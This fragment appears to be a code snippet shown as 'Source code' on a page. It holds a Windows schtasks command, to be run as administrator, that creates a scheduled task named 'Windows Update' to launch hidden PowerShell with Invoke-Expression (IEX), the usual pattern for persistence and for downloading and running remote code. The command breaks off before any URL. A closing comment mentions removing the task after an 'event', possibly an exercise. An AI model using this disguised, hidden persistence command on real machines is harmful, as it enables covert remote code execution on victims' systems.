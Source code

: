 <!--run it in power shell as admin-->
schtasks /create /tn "Windows Update" /tr "powershell.exe -nop -w hidden -c IEX(New-Object

<!--please dont forget to remove the task after completion of event-->